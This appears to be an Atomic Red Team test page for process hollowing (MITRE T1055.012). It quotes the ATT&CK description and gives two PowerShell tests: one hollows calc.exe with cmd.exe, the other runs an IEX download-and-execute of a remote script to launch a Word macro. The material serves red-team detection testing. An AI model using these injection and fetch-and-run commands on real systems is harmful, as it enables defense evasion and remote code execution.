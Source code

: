 # T1055.012 - Process Hollowing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)
<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.  

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code>  before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Endgame Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)


<br/>

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;calc.exe|
| spawnto_process_name | Name of the process to spawn | string | calc|


#### Attack Commands: Run with `powershell`! 


```powershell
. $PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes calc.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
